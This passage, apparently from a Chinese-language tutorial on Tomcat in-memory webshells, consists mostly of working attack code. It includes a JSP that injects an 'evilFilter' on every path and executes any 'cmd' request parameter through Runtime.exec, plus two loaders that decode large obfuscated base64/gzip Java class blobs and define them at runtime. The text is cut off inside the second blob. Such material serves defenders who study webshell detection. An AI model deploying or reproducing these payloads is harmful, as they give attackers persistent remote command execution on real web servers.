0BLgEAF21ha2VDb25jYXRXaXRoQ29uc3RhbnRzAQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsHATABAB5qYXZhL2xhbmcvTm9TdWNoRmllbGRFeGNlcHRpb24KAAoBMgwBMwAwAQANZ2V0U3VwZXJjbGFzcxIAAQEsCgEvAAMKAD0BNwwBOAE5AQAIZ2V0RmllbGQBAD8oTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsKABYBOwwBPABbAQADc2V0BwE+AQAfamF2YS9sYW5nL05vU3VjaE1ldGhvZEV4Y2VwdGlvbhIAAgEsCgE9AUEMAAUA7wcBQwEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uEgADASwKAUIBRgwABQFHAQAqKExqYXZhL2xhbmcvU3RyaW5nO0xqYXZhL2xhbmcvVGhyb3dhYmxlOylWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHZhcjEBAAR2YXIyAQAZTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwEABHZhcjMBABJMamF2YS9sYW5nL09iamVjdDsBAAR2YXI0AQAEdmFyNQEAGkxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAEdmFyNgEAEExqYXZhL2xhbmcvTG9uZzsBAAR2YXI3AQAFdmFyMTMBAAV2YXIxMgEABHZhcjkBABVMamF2YS9sYW5nL0V4Y2VwdGlvbjsBAAR0aGlzAQAwTGNvbS9leGFtcGxlL2RlbW8vTWVtc2hlbGwvUmVwb3J0TGlzdGVuZXJJbmplY3Q7AQANU3RhY2tNYXBUYWJsZQEABHZhcjgBAA9MamF2YS91dGlsL01hcDsBABJMamF2YS9sYW5nL1RocmVhZDsBABVMamF2YS91dGlsL0FycmF5TGlzdDsBAApFeGNlcHRpb25zAQAJU2lnbmF0dXJlAQAmKClMamF2YS91dGlsL0xpc3Q8TGphdmEvbGFuZy9PYmplY3Q7PjsBABBNZXRob2RQYXJhbWV0ZXJzAQAXTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsBABBMamF2YS91dGlsL0xpc3Q7AQAEdmFyMAEAEkxqYXZhL2xhbmcvU3RyaW5nOwEAAUkBAB9MamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW07AQAfTGphdmEvdXRpbC96aXAvR1pJUElucHV0U3RyZWFtOwcBbQEAE2phdmEvbGFuZy9UaHJvd2FibGUHAW8BABNqYXZhL2lvL0lPRXhjZXB0aW9uAQABZQEAIExqYXZhL2xhbmcvTm9TdWNoRmllbGRFeGNlcHRpb247AQAFY2xhenoBAAVmaWVsZAEAFkxvY2FsVmFyaWFibGVUeXBlVGFibGUBABRMamF2YS9sYW5nL0NsYXNzPCo+OwcBdwEAIGphdmEvbGFuZy9JbGxlZ2FsQWNjZXNzRXhjZXB0aW9uAQANc2V0RmllbGRWYWx1ZQEAOShMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZztMamF2YS9sYW5nL09iamVjdDspVgEAIUxqYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uOwEAFVtMamF2YS9sYW5nL0NsYXNzPCo+OwEAYChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczwqPjtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEAClNvdXJjZUZpbGUBABlSZXBvcnRMaXN0ZW5lckluamVjdC5qYXZhAQAQQm9vdHN0cmFwTWV0aG9kcw8GAYEKAYIBgwcBhAwBLQGFAQAkamF2YS9sYW5nL2ludm9rZS9TdHJpbmdDb25jYXRGYWN0b3J5AQCYKExqYXZhL2xhbmcvaW52b2tlL01ldGhvZEhhbmRsZXMkTG9va3VwO0xqYXZhL2xhbmcvU3RyaW5nO0xqYXZhL2xhbmcvaW52b2tlL01ldGhvZFR5cGU7TGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL2ludm9rZS9DYWxsU2l0ZTsIAYcBAAhmaWVsZDogAQgBiQEAEE5vIHN1Y2ggZmllbGQ6IAEIAYsBABNNZXRob2Qgbm90IGZvdW5kOiABCAGNAQAYRXJyb3IgaW52b2tpbmcgbWV0aG9kOiABAQAMSW5uZXJDbGFzc2VzBwGQAQAlamF2YS9sYW5nL2ludm9rZS9NZXRob2RIYW5kbGVzJExvb2t1cAcBkgEAHmphdmEvbGFuZy9pbnZva2UvTWV0aG9kSGFuZGxlcwEABkxvb2t1cAAhAD0AAgAAAAAADQABAAUABgABAUgAAAHcAAcACAAAAM4qtwABEge4AAlMKxIPtgARTSwEtgAVLAG2ABtOEgoSHwO9AAq2ACESAgHAACW2ACc6BC22AC0SMQS9AApZAxIWU7YAIToFGQUtBL0AAlkDEgoSM7YAEVO2ACfAADU6Bi22AC0SNwa9AApZAxICU1kEsgA5U1kFEgJTtgAhOgcZBy0GvQACWQMSPVNZBBkGU1kFGQRTtgAnV6cABEwqtgBBuQBFAQBMK7kASwEAmQAZK7kAUQEATSostgBVTiosLbYAWKf/5KcACEwrtgBcsQACAAQAmACbAD8AnADFAMgAPwADAUkAAABSABQAAAAQAAQAEgAKABMAEQAUABYAFQAcABYAMgAXAEYAGABfABkAfgAaAJgAHACbABsAnAAhALYAIgC8ACMAwgAkAMUAJwDIACUAyQAmAM0AKQFKAAAAcAALAAoAjgFLADwAAQARAIcBTAFNAAIAHAB8AU4BTwADADIAZgFQAU8ABABGAFIBUQFSAAUAXwA5AVMBVAAGAH4AGgFVAVIABwC8AAYBVgFPAAMAtgAMAVcBTwACAMkABAFYAVkAAQAAAM4BWgFbAAABXAAAAB4ABv8AmwABBwA9AAEHAD8A/AAJBwBM+gAeQgcAPwQAAQC7AHgAAQFIAAAALQABAAEAAAADEl+wAAAAAgFJAAAABgABAAAALAFKAAAADAABAAAAAwFaAVsAAAABAMQAeAABAUgAAAAtAAEAAQAAAAMSYbAAAAACAUkAAAAGAAEAAAAwAUoAAAAMAAEAAAADAVoBWwAAAAEAQwBEAAMBSAAAAXwAAwAIAAAAzLsAY1m3AGVMuABmuQBsAQC5AHIBAE0suQBLAQCZAK4suQBRAQDAAGdOLbYAdRJ5tgB7mQBXLRKBuACDEoe4AIMSibgAg8AAbToEGQS5AIsBALkAjwEAOgUZBbkASwEAmQAnGQW5AFEBADoGGQYSibgAg8AAbToHKxkHuQCLAQC2AJJXp//VpwBBLbYAlsYAOi22AJa2AC22AJoSnbYAe5oAFS22AJa2AC22AJoSn7YAe5kAFisttgCWEqG4AIMSo7gAg7YApVen/08rsAAAAAMBSQAAADIADAAAADQACAA2ACkANwA1ADgASgA6AGsAOwB3ADwAgwA9AIYAPgC0AD8AxwBBAMoAQwFKAAAAPgAGAHcADAFdAV4ABwBrABgBVQFPAAYASgA8AVEBXgAEACkAngFQAV8AAwAAAMwBWgFbAAAACADEAUsBYAABAVwAAAAiAAf9ABYHAGMHAEz+AEEHAGcHAG0HAEz5AC0CKvoAEvoAAgFhAAAABAABAD8BYgAAAAIBYwACALcAuAACAUgAAACcAAQABAAAADQrEqkBwACrAcAAJbgArcAAsbBNKxKzAcAAqwHAACW4AK1OLRKpAcAAqwHAACW4AK3AALGwAAEAAAARABIAPwADAUkAAAASAAQAAABIABIASQATAEoAIgBLAUoAAAAqAAQAIgASAU4BTwADABMAIQFQAVkAAgAAADQBWgFbAAAAAAA0AUsBTwABAVwAAAAGAAFSBwA/AWQAAAAFAQFLAAAAAgBXAB4AAwFIAAABEgAGAAcAAABtKiu2ALVNLCq2ALm2ALy2AL+wTiq2AMK4AMW4AMk6BBKxEs0GvQAKWQMSz1NZBLIA0VNZBbIA0VO2ANQ6BRkFBLYA1xkFLAa9AAJZAxkEU1kEA7gA2FNZBRkEvrgA2FO2ACfAAAo6BhkGtgC/sAABAAYAEQASAD8AAwFJAAAAIgAIAAAAUAAGAFMAEgBUABMAVQAfAFYAPQBXAEMAWABnAFkBSgAAAEgABwAfAE4BUADQAAQAPQAwAVEBUgAFAGcABgFTADwABgATAFoBVQFZAAMAAABtAVoBWwAAAAAAbQFLAU8AAQAGAGcBTAFlAAIBXAAAABUAAf8AEgADBwA9BwACBwCxAAEHAD8BYQAAAAQAAQA/AWQAAAAFAQFLAAAAAQBaAFsAAwFIAAABzQAHAAcAAADiKxLcAcAAqwHAACW4AK1OLcEARpkAVy3AAEY6BBkEuQBFAQA6BRkFuQBLAQCZACoZBbkAUQEAOgYZBrYALbYA3iq2ALm2AN+ZAAyyAOIS6LYA6rGn/9IZBCy5APACAFeyAOIS8bYA6qcAersAY1kEvQACWQMtU7gA87cA+ToEGQS2APw6BRkFuQBLAQCZACoZBbkAUQEAOgYZBrYALbYA3iq2ALm2AN+ZAAyyAOIS6LYA6rGn/9IZBCy2AKVXKxL9BL0AClkDEiVTBL0AAlkDGQS2AP9TuACtV7IA4hLxtgDqsQAAAAMBSQAAAFYAFQAAAF4ADwBfABYAYAAcAGIAOABjAEoAZABSAGUAUwBnAFYAaQBfAGoAZwBrAGoAbAB+AG4AmABvAKoAcACyAHEAswBzALYAdQC9AHYA2QB3AOEAegFKAAAAUgAIADgAGwFTAU8ABgAcAEsBUAFmAAQAmAAbAVgBTwAGAH4AYwFVAWAABAAAAOIBWgFbAAAAAADiAUsBTwABAAAA4gFMAU8AAgAPANMBTgFPAAMBXAAAACUACP4AJQcAAgcARgcATC36AAL6ABP9ABoHAGMHAEwt+gAC+gAqAWEAAAAEAAEAPwFkAAAACQIBSwAAAUwAAAAJAMcAyAADAUgAAADjAAYAAwAAAGkTAQO4AAlMKxMBBQO9AAq2ACEBA70AArYAJ00stgAtEwEHBL0AClkDEnxTtgAhLAS9AAJZAypTtgAnwADPsEwTAQm4AAlNLBMBCwS9AApZAxJ8U7YAISy2AL8EvQACWQMqU7YAJ8AAz7AAAQAAAD0APgA/AAMBSQAAABoABgAAAH4ABwB/ABsAgAA+AIEAPwCCAEYAgwFKAAAANAAFAAcANwFQADwAAQAbACMBTAFPAAIARgAjAUsAPAACAD8AKgFOAVkAAQAAAGkBZwFoAAABXAAAAAYAAX4HAD8BYQAAAAQAAQA/AWQAAAAFAQFnAAAACQDLAMwAAwFIAAABgQAFAAcAAABguwENWbcBD0wBTbsBEFm7ARJZKrcBFLcBF00REAC8CDoELBkEtgEaWTYFngAPKxkEAxUFtgEep//rK7YBIk4sxgAHLLYBJiu2ASmnABQ6BizGAAcstgEmK7YBKRkGvy2wAAIACgA+AE0AAABNAE8ATQAAAAMBSQAAAEIAEAAAAIgACACJAAoAjQAaAI4AIQCRAC0AkgA5AJUAPgCXAEIAmABGAJsASgCcAE0AlwBTAJgAVwCbAFsAnABeAJ4BSgAAAEgABwAhAB0BTgDQAAQAKgAUAVABaQAFAD4ADwFRANAAAwAAAGABZwDQAAAACABYAUsBagABAAoAVgFMAWsAAgBeAAIBUQDQAAMBXAAAAGkABv8AIQAFBwDPBwENBwEQAAcAzwAA/AAXAf8ADAAEBwDPBwENBwEQBwDPAAD/AAYAAwcAzwcBDQcBEAABBwFs/wAJAAcHAM8HAQ0HARAAAAAHAWwAAP8ABgAEBwDPBwENBwEQBwDPAAABYQAAAAQAAQFuAWQAAAAFAQFnAAAACQE4ATkAAwFIAAABBQACAAUAAABOKrYALU0BTiwSAqUAJSwrtgARTrIA4i22ASq6ASsAALYA6qcADToELLYBMU2n/9stxgAKLQS2ABUtsLIA4iu6ATQAALYA6rsBL1m3ATW/AAEADQAiACUBLwAEAUkAAAA6AA4AAACiAAUAowAHAKQADQCmABMApwAiAKgAJQCpACcAqgAsAKsALwCtADMArgA4AK8AOgCxAEYAsgFKAAAANAAFACcABQFwAXEABAAAAE4BZwFPAAAAAABOAUsBaAABAAUASQFyADwAAgAHAEcBcwFNAAMBdAAAAAwAAQAFAEkBcgF1AAIBXAAAABEABP0ABwcACgcAFl0HAS8JCgFhAAAABAABAS8BZAAAAAkCAWcAAAFLAAAACQCFAIYAAwFIAAAAgAACAAMAAAAUKiu4ATZNLAS2ABUsKrYAG7BNAbAAAQAAABAAEQEvAAMBSQAAABYABQAAALoABgC7AAsAvAARAL0AEgC+AUoAAAAqAAQABgALAUwBTQACABIAAgFOAXEAAgAAABQBZwFPAAAAAAAUAUsBaAABAVwAAAAGAAFRBwEvAWEAAAAGAAIBLwF2AWQAAAAJAgFnAAABSwAAAAkBeAF5AAMBSAAAAGYAAwAEAAAAEioruAE2Ti0EtgAVLSostgE6sQAAAAIBSQAAABIABAAAAMMABgDEAAsAxQARAMYBSgAAACoABAAAABIBZwFPAAAAAAASAUsBaAABAAAAEgFMAU8AAgAGAAwBTgFNAAMBYQAAAAQAAQA/AWQAAAANAwFnAAABSwAAAUwAAAAJAK8AsAADAUgAAAGvAAQABwAAAIoqwQAKmQAKKsAACqcAByq2AC06BAE6BRkExgAzGQXHAC4sxwASGQQrA70ACrYA1DoFpwAMGQQrLLYA1DoFp//aOgYZBLYBMToEp//OGQXHABG7AT1ZK7oBPwAAtwFAvxkFBLYA1xkFKsEACpkABwGnAAQqLbYAJ7A6BLsBQlkrugFEAAAZBLcBRb8AAgAhAD0AQAE9AAAAdwB4AD8ABAFJAAAAQgAQAAAAygAUAMsAFwDNACEAzwAlANAANADSAD0A1gBAANQAQgDVAEkA1gBMANkAUQDaAF8A3ABlAN0AeADfAHoA4AFKAAAAUgAIAEIABwFVAXoABgAUAGQBUAA8AAQAFwBhAVEBUgAFAHoAEAFdAVkABAAAAIoBZwFPAAAAAACKAUsBaAABAAAAigFMAKwAAgAAAIoBTgAmAAMBdAAAAAwAAQAAAIoBTAF7AAIBXAAAAFEACw5DBwAK/QAEBwAKBwAoHAhCBwE9CxJSBwAo/wAAAAYHAAIHAHwHAKsHACUHAAoHACgAAgcAKAcAAv8ABAAEBwACBwB8BwCrBwAlAAEHAD8BZAAAABEEAWcAAAFLAAABTAAAAU4AAAFiAAAAAgF8AAMBfQAAAAIBfgF/AAAAGgAEAYAAAQGGAYAAAQGIAYAAAQGKAYAAAQGMAY4AAAAKAAEBjwGRAZMAGQ==";
    byte[] bytecode = null;
    try {
        Class base64Clz = Class.forName("java.util.Base64");
        Object decoder = base64Clz.getMethod("getDecoder").invoke(null);
        bytecode = (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, base64Str);
    } catch (ClassNotFoundException ee) {
        Class datatypeConverterClz = Class.forName("javax.xml.bind.DatatypeConverter");
        bytecode = (byte[]) datatypeConverterClz.getMethod("parseBase64Binary", String.class).invoke(null, base64Str);
    }
    Class clazz = new ClassDefiner(Thread.currentThread().getContextClassLoader()).defineClass(bytecode);
    clazz.newInstance();
%>
```

触发：在任意请求中添加cmd参数，即`cmd=calc`


### （3）Filter内存马

方式一：

```
<%@ page import="jakarta.servlet.*" %>
<%@ page import="jakarta.servlet.http.*" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="java.lang.reflect.*" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    // 定义恶意Filter名称
    String filterName = "evilFilter";

    // 1. 获取ServletContext并反射得到StandardContext
    ServletContext servletContext = request.getSession().getServletContext();
    Field contextField = servletContext.getClass().getDeclaredField("context");
    contextField.setAccessible(true);
    Object context = contextField.get(servletContext); // 此处获取的是ApplicationContext实例

    // 2. 从ApplicationContext中获取StandardContext（Tomcat 10+的结构）
    Field standardContextField = context.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(context);

    // 3. 检查Filter是否已注册，避免重复注册
    boolean isRegistered = false;
    Field filterConfigsField = null;
    Map<String, ApplicationFilterConfig> filterConfigs = null;

    // Tomcat 10+ 中，filterConfigs可能在StandardContext的父类中
    Class<?> clazz = standardContext.getClass();
    while (clazz!= null) {
        try {
            filterConfigsField = clazz.getDeclaredField("filterConfigs");
            filterConfigsField.setAccessible(true);
            filterConfigs = (Map<String, ApplicationFilterConfig>) filterConfigsField.get(standardContext);
            if (filterConfigs.containsKey(filterName)) {
                isRegistered = true;
            }
            break;
        } catch (NoSuchFieldException e) {
            clazz = clazz.getSuperclass(); // 向上查找父类
        }
    }

    if (isRegistered) {
        out.println("Filter already registered!");
        return;
    }

    // 4. 创建恶意Filter（拦截请求并执行命令）
    Filter evilFilter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {}

        @Override
        public void doFilter(ServletRequest req, ServletResponse res, FilterChain chain)
                throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd!= null &&!cmd.isEmpty()) {
                // 执行系统命令
                Process process = Runtime.getRuntime().exec(cmd);
                BufferedReader br = new BufferedReader(
                        new InputStreamReader(process.getInputStream(), "GBK") // 适配中文输出
                );
                StringBuilder sb = new StringBuilder();
                String line;
                while ((line = br.readLine())!= null) {
                    sb.append(line).append("\n");
                }
                res.getWriter().write(sb.toString());
                res.getWriter().flush();
                return;
            }
            chain.doFilter(req, res); // 不影响正常请求
        }

        @Override
        public void destroy() {}
    };

    // 5. 注册Filter到Tomcat容器
    // 5.1 创建FilterDef
    FilterDef filterDef = new FilterDef();
    filterDef.setFilterName(filterName);
    filterDef.setFilter(evilFilter);
    filterDef.setFilterClass(evilFilter.getClass().getName());
    standardContext.addFilterDef(filterDef);

    // 5.2 创建FilterMap（拦截所有路径）
    FilterMap filterMap = new FilterMap();
    filterMap.setFilterName(filterName);
    filterMap.addURLPattern("/*"); // 拦截所有请求
    standardContext.addFilterMapBefore(filterMap); // 添加到过滤器链前端

    // 5.3 初始化FilterConfig并添加到容器
    Constructor<ApplicationFilterConfig> constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = constructor.newInstance(standardContext, filterDef);

    // 将FilterConfig放入filterConfigs
    if (filterConfigs == null) {
        // 若未找到filterConfigs字段，尝试通过其他方式初始化（Tomcat 10+可能需要）
        filterConfigsField = StandardContext.class.getDeclaredField("filterConfigs");
        filterConfigsField.setAccessible(true);
        filterConfigs = (Map<String, ApplicationFilterConfig>) filterConfigsField.get(standardContext);
    }
    filterConfigs.put(filterName, filterConfig);

    out.println("Filter injected successfully!");
%>
```


方式二：

```
<%!
    public static class ClassDefiner extends ClassLoader {
        public ClassDefiner(ClassLoader classLoader) {
            super(classLoader);
        }

        public Class<?> defineClass(byte[] code) {
            return defineClass(null, code, 0, code.length);
        }
    }
%>

<%
    String base64Str = "yv66vgAAAD0BoQgAAgEABS90ZXN0CAAEAQAkY29tLmV4YW1wbGUuZGVtby5NZW1zaGVsbC5UZXN0RmlsdGVyCAAGAQaYSDRzSUFBQUFBQUFBLzZWV3kzWVRSeEM5UFhxMExJL3hnNmRpTUNaZ0k4c1lZUWdHSkVJU0V3aEsvQUJzVElBa1pDd04xaGhKSTBZalkvSVYrWU1zMmNZYkplVGs1TERLSWwrU2o4Z0p1VDB6bGlYazF6blpkRTkzVjkycXVsWGROWC85KzlzZkFEN0dxemcwaENUQ09pS0lDdlN0R210R3VtUlVWdEx6eTZ0bTNoV0lYcmNxbG50RElKUWNXNUtJQ1p4ZE5aNGJqbXVrYTZhelZqTGRkTkYxcStrN0hCYjhqZnZtaTdwWmN5WGlBc205aFd0VnUxSXpZOUJwSTE4dWRFUGlnSTVlOUFub0s2WjcxM0NNc3VtYWpzQm9jbWJMd1FYWHNTb3IyYkhPclRnR2NGRGlrSTdEQ3VSTTNpNm56WFdqWEMyWjZZSlp0dE96WnJsV05FdWw5Q0xkdkcyVlBQRFlwaTJsZmxUSE1TUUVEbkF6VjZuV1hVS2JSbGxnYkdjWExEdmRJcHJ0UmhjR2RSekhDWUZld3N6WDNSYWNzMG1sMVU1TndFaXJJR001aVdHSlV6byt4R21CZzl0WUVnaHpLZ2hFa2srbXgzSnhqR0JVNHF5T0pNWUVUdS9EQ2xWZk9wWnJDa2hDNUhJcTBlT2J4cnhJRjR1Ty9kSllMcGx4cERDaDQ3eXFsdDRxd3llRWtYKys2Qmg1c3hzWE1DbHhVY2NsZkNRdytMNWxuK21iUmNPcWtPNkN2Y244NThtZHFBZ3FLYnZ6dVY4ODJiR2xPS1p3UmVLcWptdklDUFJ2K1g2L1huR3RNb09MTXd2TnhlRmthK1VFMjFtRmNsM256V0RCaDgxMU02OHl0WHZSM1hYc3ZGbXJVZlZUZkNZeHJTcm5acHNEZ1lUQTBlVDJwU0p4UytESTluVFJqNXQyZ1E3M3psZ1ZjNjVlWGphZFJaVUpnWUVaTzIrVWxnekhVdXRnTSt3V0xab2FuZGxQMVdjRmpQOVBmb2RBUzZLWkdmcTBaamhYU1BtMndmdkhWd1ZHOW5VaGZQRnJBdHFUYWRZdHZ5Y3ZDSWljdnorbFdPbElWeUEzMlhTaHZhWURUQjRQNzhXRkwzbFI0TlNlclBpaWx3Uk83TXFQTDhicjB2a2U3UEN1QmlxWEJWTDdVR2w2MCtOZDFGbWo2aFdLQkIrTW9kMmpsWGdtY0hLUE9DV0tiWDNEcDF6aUh1L2JyZlc4V1hVdGlrbVVXaCt2K2VhSkJOK0M0UjFzTktWb1lkWjBpM2FoMlF4WTRtSFZtSmlKemdJTytMVXJ6NndWcndDSGRoZHBMeHEvOC9GUzF0dWV3QlpuWklIc09QWXJocmhnMTUyOFNUUjFRN2N1MW5tbGgxUHNKQnI0d0xIWlJqbEh2UEUyVjJuT2duTWs5UXZFQmo4MGZCRUlnWDNqRGtmZEYwQU9YM0lXZkZPL1FrZ3BpeDhSUmpmM3JQRzNrSm53dWJmb3lrUlNpZkJBOXh2MGFHaWdQeE5OUlAvRWxWUWkyc0NSakV4RTN1QURnVXlzZnhpL3h6SmRDWm5vYW1EbzBWUmMrd2w5aVZpaUszUTQzc0NaMSsvKzNuaU51Tkp1NE54RUlxd1UweUZzMEx5T0JUems0eC95SEwzQi9xeGNqS0tIWXg4RzBZOWhScHZFUVV6aUVLN2lLRjA5UnAxQkxMS0ZQY1FKUE1JUXZpTW5SYll5RmVBUFVDM3FIR1l3eTVZL2lkT1l3enhpMUQyT3U3aEhHcWFKZUo4WWNhSmNJODREMm50RVNwYUlGMVVFQk9Tb3I2OTVJcnl2eDNoQ090WFhOL2lXL2thUnA5Mm5KRTNuK25zWVJGam1lUTZSZHpRV2x4aVF5RXV3bEM5SVNJa3VDUmJ3U1lrUlNSRDhRKzdlcWVSMENnTFRFcWtvVnIzY2FYaU9NbXgrOTRUb0QrZ0o2SU5LWGhVdi9PVGhzcGRzZEdaOXhDUGxpSC9ZREV3UXlPR29MSVE1Ky9nUjRlRnI2Z2VIbzhLZDRxRlMxY1ovZmc4NDJRS3NOWUUxSWp6Z2VSc2MvM2tDTjU5eUZlYmNLMloveGVYeEJySU5mREkzc1lWOWdJSmc5alJNc0FiT2V6WlN2a3JUUm05Z1E2UEVZOVM4V1dNdVpxbTdHWkRiNm9IQVd2T0tqSHZyYllpNjJISTlSUE42dlBTazF2OEQ4bGxxRk5zS0FBQT0KAAgACQcACgwACwAMAQAQamF2YS9sYW5nL09iamVjdAEABjxpbml0PgEAAygpVggADgEAD3N1bi5taXNjLlVuc2FmZQoAEAARBwASDAATABQBAA9qYXZhL2xhbmcvQ2xhc3MBAAdmb3JOYW1lAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwgAFgEACXRoZVVuc2FmZQoAEAAYDAAZABoBABBnZXREZWNsYXJlZEZpZWxkAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7CgAcAB0HAB4MAB8AIAEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkAQANc2V0QWNjZXNzaWJsZQEABChaKVYKABwAIgwAIwAkAQADZ2V0AQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsIACYBAAlnZXRNb2R1bGUKABAAKAwAKQAqAQAJZ2V0TWV0aG9kAQBAKExqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzOylMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwcALAEAE1tMamF2YS9sYW5nL09iamVjdDsKAC4ALwcAMAwAMQAyAQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kAQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7CgAIADQMADUANgEACGdldENsYXNzAQATKClMamF2YS9sYW5nL0NsYXNzOwgAOAEAEW9iamVjdEZpZWxkT2Zmc2V0CAA6AQAGbW9kdWxlBwA8AQAOamF2YS9sYW5nL0xvbmcIAD4BAA9nZXRBbmRTZXRPYmplY3QJADsAQAwAQQBCAQAEVFlQRQEAEUxqYXZhL2xhbmcvQ2xhc3M7BwBEAQAqY29tL2V4YW1wbGUvZGVtby9NZW1zaGVsbC9UZXN0RmlsdGVySW5qZWN0BwBGAQATamF2YS9sYW5nL0V4Y2VwdGlvbgoAQwBIDABJAEoBAApnZXRDb250ZXh0AQASKClMamF2YS91dGlsL0xpc3Q7CwBMAE0HAE4MAE8AUAEADmphdmEvdXRpbC9MaXN0AQAIaXRlcmF0b3IBABYoKUxqYXZhL3V0aWwvSXRlcmF0b3I7CwBSAFMHAFQMAFUAVgEAEmphdmEvdXRpbC9JdGVyYXRvcgEAB2hhc05leHQBAAMoKVoLAFIAWAwAWQBaAQAEbmV4dAEAFCgpTGphdmEvbGFuZy9PYmplY3Q7CgBDAFwMAF0AJAEACGdldFNoZWxsCgBDAF8MAGAAYQEABmluamVjdAEAJyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL09iamVjdDspVgoARQBjDABkAAwBAA9wcmludFN0YWNrVHJhY2UHAGYBABNqYXZhL3V0aWwvQXJyYXlMaXN0CgBlAAkKAGkAagcAawwAbABtAQAQamF2YS9sYW5nL1RocmVhZAEAEWdldEFsbFN0YWNrVHJhY2VzAQARKClMamF2YS91dGlsL01hcDsLAG8AcAcAcQwAcgBzAQANamF2YS91dGlsL01hcAEABmtleVNldAEAESgpTGphdmEvdXRpbC9TZXQ7CwB1AE0HAHYBAA1qYXZhL3V0aWwvU2V0CgBpAHgMAHkAegEAB2dldE5hbWUBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwgAfAEAHENvbnRhaW5lckJhY2tncm91bmRQcm9jZXNzb3IKAH4AfwcAgAwAgQCCAQAQamF2YS9sYW5nL1N0cmluZwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaCACEAQAGdGFyZ2V0CgBDAIYMAIcAiAEADWdldEZpZWxkVmFsdWUBADgoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvT2JqZWN0OwgAigEABnRoaXMkMAgAjAEACGNoaWxkcmVuCwBvAI4MAI8AkAEABnZhbHVlcwEAGCgpTGphdmEvdXRpbC9Db2xsZWN0aW9uOwsAkgBNBwCTAQAUamF2YS91dGlsL0NvbGxlY3Rpb24KAGUAlQwAlgCXAQAGYWRkQWxsAQAZKExqYXZhL3V0aWwvQ29sbGVjdGlvbjspWgoAaQCZDACaAJsBABVnZXRDb250ZXh0Q2xhc3NMb2FkZXIBABkoKUxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7CgAQAJ0MAJ4AegEACHRvU3RyaW5nCACgAQAZUGFyYWxsZWxXZWJhcHBDbGFzc0xvYWRlcggAogEAH1RvbWNhdEVtYmVkZGVkV2ViYXBwQ2xhc3NMb2FkZXIIAKQBAAlyZXNvdXJjZXMIAKYBAAdjb250ZXh0CgBlAKgMAKkAqgEAA2FkZAEAFShMamF2YS9sYW5nL09iamVjdDspWggArAEADmdldENsYXNzTG9hZGVyBwCuAQASW0xqYXZhL2xhbmcvQ2xhc3M7CgBDALAMALEAsgEADGludm9rZU1ldGhvZAEAXShMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzcztbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwcAtAEAFWphdmEvbGFuZy9DbGFzc0xvYWRlcggAtgEACWdldExvYWRlcgoAQwC4DAC5ALoBABRnZXRXZWJBcHBDbGFzc0xvYWRlcgEAKyhMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsKAEMAvAwAvQB6AQAMZ2V0Q2xhc3NOYW1lCgCzAL8MAMAAFAEACWxvYWRDbGFzcwoAEADCDADDAFoBAAtuZXdJbnN0YW5jZQoAQwDFDADGAHoBAA9nZXRCYXNlNjRTdHJpbmcKAEMAyAwAyQDKAQAMZGVjb2RlQmFzZTY0AQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgoAQwDMDADNAM4BAA5nemlwRGVjb21wcmVzcwEABihbQilbQggA0AEAC2RlZmluZUNsYXNzBwDSAQACW0IJANQAQAcA1QEAEWphdmEvbGFuZy9JbnRlZ2VyCgAQANcMANgAKgEAEWdld